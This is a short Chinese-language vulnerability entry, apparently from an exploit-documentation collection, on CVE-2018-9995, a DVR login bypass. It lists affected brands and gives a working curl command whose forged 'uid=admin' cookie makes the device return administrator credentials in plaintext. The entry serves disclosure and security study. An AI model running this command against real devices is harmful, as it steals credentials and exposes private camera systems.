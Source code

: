 # DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

> [!NOTE]
>
> Novo
>
> CeNova
>
> QSee
>
> Pulnix
>
> XVR 5 in 1 (title: "XVR Login")
>
> Securus, - Security. Never Compromise !! -
>
> Night OWL
>
> DVR Login
>
> HVR Login
>
> MDVR Login

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](image/dvr-1.png)